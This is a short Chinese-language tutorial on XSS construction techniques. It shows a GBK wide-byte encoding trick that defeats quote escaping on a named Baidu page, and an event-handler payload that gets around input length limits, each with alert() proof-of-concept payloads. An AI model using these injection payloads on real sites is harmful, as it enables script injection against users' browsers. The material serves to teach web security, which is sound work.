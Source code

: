 # XSS构造技巧

## 0x01利用字符编码

百度在一个<script>标签中输出了一个变量，并转义了双引号：

```
var redirectUrl="\";alert(/XSS/);";
```

因为第二个双引号被转义符转义，所以alert在引号内成为变量。

但是，百度返回界面是GBK/GB2312编码，因此%c1\可以组成一个Unicode字符。所以构造：

```
%c1";alert(/XSS/);
```

百度返回：

```
var redirectUrl="%c1\";alert(/XSS/);";
```

转义符失效，双引号闭合。XSS攻击成功。

## 0x02绕过长度限制

举例说明：

```
<input type=text value="$var" />
```

服务器端如果没有对变量"$var"做长度限制，我们可以构造"$var"为：

```
"><script>alert(/XSS/)</script>
```

得到的效果为：

```
<input type=text value=""><script>alert(/XSS/)</script>" />
```

如果长度限制长度为20，那么得到的结果为：

```
<input type=text value=""><script>alert(/XSS
```

完整的payload无法构造，攻击失败。

这时，可以尝试用其他方式进行攻击，比如：事件（event）：

```
$var为 : "onclick=alert(1)
```

可以看出事件缩短的长度是有限的。

